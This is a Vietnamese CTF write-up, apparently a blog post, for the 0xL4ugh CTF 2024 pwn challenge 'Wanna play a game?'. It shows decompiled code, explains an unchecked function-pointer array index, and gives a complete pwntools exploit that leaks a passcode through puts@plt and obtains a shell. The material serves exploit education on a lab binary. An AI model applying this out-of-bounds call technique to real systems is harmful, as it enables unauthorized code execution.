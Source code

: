 ```yaml
---
title: "[WRITE UP] - 0xL4ugh CTF 2024 - Wanna play a game?"
published: 2024-12-01
description: "Write up for Wanna play a game challenge"
tags:
  - "PWN"
  - "2024"
category: "CTF Writeups"
draft: false
---
```

## General Infomation

```c
[*] '/home/alter/CTFs/0xlaugh/pwn/wanna_play_a_game/public/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

- **main()**

    ```c
    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      __int64 v3; // [rsp+0h] [rbp-10h]
      __int64 v4; // [rsp+8h] [rbp-8h]

      setup(argc, argv, envp);
      printf("[*] NickName> ");
      if ( read(0, &username, 0x40uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      while ( 1 )
      {
        menu();
        v3 = read_int();
        printf("[*] Guess>");
        v4 = read_int();
        ((void (__fastcall *)(__int64))conv[v3 - 1])(v4);
      }
    }

    ```

- **easy()**

    ```c
    int __fastcall easy(__int64 a1)
    {
      if ( a1 == rand() )
        return printf("[+] NICE GUESS!!\n[*] Current Score: %lu\n", score);
      else
        return puts("[-] WRONG GUESS :(");
    }
    ```

- **hard()**

    ```csharp
    unsigned __int64 __fastcall hard(__int64 a1)
    {
      int i; // [rsp+14h] [rbp-2Ch]
      char path[8]; // [rsp+2Fh] [rbp-11h] BYREF
      char v4; // [rsp+37h] [rbp-9h]
      unsigned __int64 v5; // [rsp+38h] [rbp-8h]

      v5 = __readfsqword(0x28u);
      strcpy(path, "<qz}<`{");
      v4 = 0;
      for ( i = 0; i <= 6; ++i )
        path[i] ^= 0x13u;
      if ( a1 == passcode )
      {
        puts("[+] WINNNN!");
        execve(path, 0LL, 0LL);
      }
      else
      {
        puts("[-] YOU ARE NOT WORTHY FOR A SHELL!");
      }
      change_passcode();
      return v5 - __readfsqword(0x28u);
    }
    ```

- **read_int()**

    ```c
    __int64 read_int()
    {
      __int64 buf[6]; // [rsp+0h] [rbp-30h] BYREF

      buf[5] = __readfsqword(0x28u);
      memset(buf, 0, 32);
      printf("> ");
      if ( read(0, buf, 0x20uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      return atol((const char *)buf);
    }
    ```

- **change_passcode()**

    ```c
    int change_passcode()
    {
      int fd; // [rsp+Ch] [rbp-4h]

      fd = open("/dev/random", 0);
      if ( fd < 0 )
      {
        perror("OPEN ERROR");
        exit(-1);
      }
      if ( read(fd, &passcode, 8uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      puts("[*] PASSCODE CHANGED!");
      return close(fd);
    }
    ```


Flow của ELF được cấu trúc như sau:

1. **Nhập username**: Người dùng nhập tên của mình.
2. **Chọn chức năng**: Người dùng chọn một trong hai chế độ (`easy` hoặc `hard`).
3. **Nhập số để đoán**: Người dùng nhập giá trị dự đoán.
4. **Gọi hàm tương ứng**: Chế độ được chọn (`easy` hoặc `hard`) sẽ được gọi thông qua mảng `conv[]`.
5. **Quay lại bước 2**: Chu trình tiếp tục lặp lại.

Khi phân tích qua mã decompile, ta thấy rằng cả `username` và mảng `conv[]` đều được khởi tạo trước khi hàm `main` chạy và nằm trong `.data` section. Với điều kiện **No PIE** (Position Independent Executable bị tắt), địa chỉ của các biến này là cố định. Điều này cho phép ta kiểm soát hoặc tận dụng một trong hai (hoặc cả hai) biến để khai thác chương trình, mở ra nhiều khả năng tấn công dựa trên việc thao túng `.data` section.

Tại `conv` :

```nasm
.data:0000000000404010                 public conv
.data:0000000000404010 conv            dq offset easy          ; DATA XREF: main+A8↑o
.data:0000000000404010                                         ; main+AF↑r
.data:0000000000404010                 dq offset hard
```

Mảng `conv[]` chứa hai địa chỉ hàm: `easy` và `hard`. Khi người dùng chọn chế độ, chương trình sẽ gọi hàm tương ứng thông qua `conv` bằng cách sử dụng cú pháp `conv[input - 1](v4)`. Ở đây, `input - 1` xác định index trong mảng `conv`, tương ứng với `1` (easy - index `0`) và `2` (hard - index `1`). Biến `v4` được truyền làm tham số cho hàm được gọi. Cách triển khai này phụ thuộc hoàn toàn vào giá trị nhập từ người dùng để xác định hàm nào sẽ được thực thi, tạo cơ hội cho việc khai thác nếu người dùng có thể kiểm soát hoặc ghi đè dữ liệu trong mảng `conv`

Như vậy, chương trình tồn tại lỗi **Out-Of-Bounds (OOB)** khi gọi `conv[input - 1](v4)` mà không kiểm tra giá trị của `input`. Điều này cho phép người dùng nhập các giá trị ngoài phạm vi hợp lệ (khác 1 và 2), dẫn đến việc gọi địa chỉ bất kỳ. Kết hợp với khả năng kiểm soát biến `username`, ta có thể chỉnh sửa nội dung của `username` để chứa một địa chỉ hợp lệ. Sau đó, chương trình có thể bị điều hướng để gọi vào địa chỉ đó, mở ra khả năng khai thác. Bên cạnh đó còn có **Bad Seed khi** chương trình sử dụng `srand(time(0))` để tạo seed cho việc sinh passcode ngẫu nhiên. Tuy nhiên, với `rand()`, giá trị này có thể được dự đoán nếu thời gian chạy chương trình được biết. Dù vậy, tính năng này chỉ được sử dụng trong chế độ `easy`, và không có ý nghĩa quan trọng trong khai thác hiện tại nên có thể bỏ qua.

## Leak libc

Theo intended solution, mục tiêu là nhập đúng passcode mà binary đã khởi tạo mỗi khi chạy `main`. Để đạt được điều này, ta có thể lợi dụng hàm `puts(char *s)` để leak dữ liệu từ biến `passcode`. Vì `passcode` được khởi tạo trước khi `main` chạy và nằm trong `.data` section, ta có thể khai thác bằng cách làm như sau:

1. **Chọn địa chỉ cần leak**: Biến `passcode` có địa chỉ cố định (do No PIE), và nội dung của nó có thể được truy cập trực tiếp.
2. **Gọi `puts` với địa chỉ tùy chỉnh**: Bằng cách điều hướng một hàm hoặc mảng (như `conv[]`) để gọi `puts` với tham số là địa chỉ của `passcode`, chương trình sẽ in ra giá trị của nó.

```python
passcode_address = 0x404060
puts_plt = exe.plt.puts

sa(b'[*] NickName> ', p64(puts_plt))
sla(b'> ', b'15') # offset / 8 từ conv -> passcode
sa(b'>', str(passcode_address).encode())

ru(b'> ')
# print(ru(b'\n'))
passcode = u64(ru(b'\n').strip())
print(f'Passcode leak: {passcode}')
```

## Get shell

Nhập `passcode` ta leak được là đã có được shell:

```python
sla(b'> ', b'2')
sa(b'>', str(passcode).encode())
```

- Full payload

    ```python
    #!/usr/bin/python3
    from pwncus import *

    # context.log_level = 'debug'
    exe = context.binary = ELF('./chall', checksec=False)

    def GDB(): gdb.attach(p, gdbscript='''

    c
    ''') if not args.REMOTE else None

    p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
    set_p(p)
    if args.GDB: GDB(); input()

    # ===========================================================
    #                          EXPLOIT
    # ===========================================================

    passcode_address = 0x404060
    puts_plt = exe.plt.puts

    sa(b'[*] NickName> ', p64(puts_plt))
    sla(b'> ', b'15')
    sa(b'>', str(passcode_address).encode())

    ru(b'> ')
    # print(ru(b'\n'))
    passcode = u64(ru(b'\n').strip())
    print(f'Passcode leak: {passcode}')

    sla(b'> ', b'2')
    sa(b'>', str(passcode).encode())
    interactive()
    ```
